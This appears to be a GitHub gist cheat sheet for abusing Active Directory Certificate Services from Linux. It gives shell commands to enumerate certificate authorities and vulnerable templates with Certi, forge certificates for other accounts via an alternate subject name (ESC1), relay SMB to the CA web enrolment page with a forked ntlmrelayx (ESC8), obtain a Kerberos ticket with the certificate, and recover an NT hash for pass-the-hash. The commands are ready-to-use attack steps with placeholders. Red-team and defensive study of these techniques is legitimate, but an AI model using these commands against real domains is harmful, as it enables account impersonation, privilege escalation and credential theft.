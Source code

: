 # PKI Abuse

##
## https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250
##
##

Some golden links when you are having issues:
https://social.technet.microsoft.com/Forums/windows/en-US/96016a13-9062-4842-b534-203d2f400cae/ca-certificate-request-error-quotdenied-by-policy-module-0x80094800quot-windows-server-2008?forum=winserversecurity


## Enumerating ADCS On Linux

Download and install Certi
```shell
git clone https://github.com/eloypgz/certi
cd certi
sudo python3 setup.py install
```

Certi only support kerberos auth, so to perform authenticated enumeration, you need to fetch a TGT for a valid user first.
```shell
getTGT.py '<domain>/<username>:<password>' -dc-ip <dc-ip>
```
Set the env var to the output ccache

```shell
export KRB5CCNAME=<username>.ccache
```

Enumerate Certificate Authorities on the domain (CA's)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```

Enumerate CA Services on the domain (Actual server names)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class service
```

Enumerate vuln templates
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```

## Requesting certs from CA Linux

 Requesting a cert with an alt subject name (ESC1)
 ```shell
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```

## Requesting cert by SMB relaying On Linux (ESC8)

Relaying incoming SMB connection to ADCS to generate a certificate on

Fetch and install a custom fork of impacket
```shell
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

Create a virtual python env to contain this version of impacket (Avoid breaking the release you already have installed)
```shell
apt install python3-venv
python3 -m venv adcs-impacket
```

Move "into" this virutal env 
```shell
source adcs-impacket/bin/activate
```
Still inside the impacket folder

```shell
pip3 install .
```

You can now setup ntlmrelay for realying 
```shell
python3 examples/ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <template-name>
```

## Authentication using certificate on Linux

Request an TGT on behalf of the account 
```shell
python3 gettgtpkinit.py <domain>/<username> -pfx-base64 $(cat <base64-cert.file>) -dc-ip <dc-ip> out_tgt.ccache
```

Set the env var to the output TGT ccache

```shell
export KRB5CCNAME=out_tgt.ccache
```

Get an NTHash for Pass-The-Hash from TGT, AS-REP-KEY-ENC is from the output of the command above.
```shell
python3 getnthash.py -key <AS-REP-ENC-KEY> -dc-ip <dc-ip> <domain>/<username>
```
